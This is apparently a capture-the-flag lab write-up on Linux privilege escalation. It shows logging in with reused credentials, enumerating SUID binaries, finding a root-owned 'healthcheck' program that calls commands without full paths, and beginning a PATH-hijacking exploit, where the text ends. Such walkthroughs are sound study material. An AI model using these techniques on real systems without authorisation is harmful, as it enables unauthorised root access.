 
# Privilege Escalation
## Medical - Via Creds Found
1. Earlier we found medical creds
2. Switch to medical w/ medical:medical
	![](images/Pasted%20image%2020220202164335.png)
3. User Flag
	```
	sh-4.1$ cat user.txt
	cat user.txt
	d41d8cd98f00b204e9800998ecf8427e
	sh-4.1$ 
	```
## Root - Via SUID Binary (Path Hijacking)
1. Check for SUID Binaries
	```
	[medical@localhost ~]$ find / -perm -4000 2>/dev/null 
	...
	/usr/bin/expiry
	/usr/bin/newgrp
	/usr/bin/pkexec
	/usr/bin/wvdial
	/usr/bin/pmount
	/usr/bin/sperl5.10.1
	/usr/bin/gpgsm
	/usr/bin/gpasswd
	/usr/bin/chfn
	/usr/bin/su
	/usr/bin/passwd
	/usr/bin/gpg
	/usr/bin/healthcheck <- Suspicious
	...
	```
2. View contents of `healthcheck`
	```
	[medical@localhost ~]$ strings /usr/bin/healthcheck
	/lib/ld-linux.so.2
	__gmon_start__
	libc.so.6
	_IO_stdin_used
	setuid
	system
	setgid
	__libc_start_main
	GLIBC_2.0
	PTRhp
	[^_]
	clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
	```
	- `ifconfig` is called w/o specifying its full path
	- `fdisk` is called w/o specifying its full path
	- `du` is called w/o specifying its full path
3. Exploit 
	1. Prepend `/tmp` to our PATH environment variable
		```
		[medical@localhost tmp]$ export PATH=/tmp:$PATH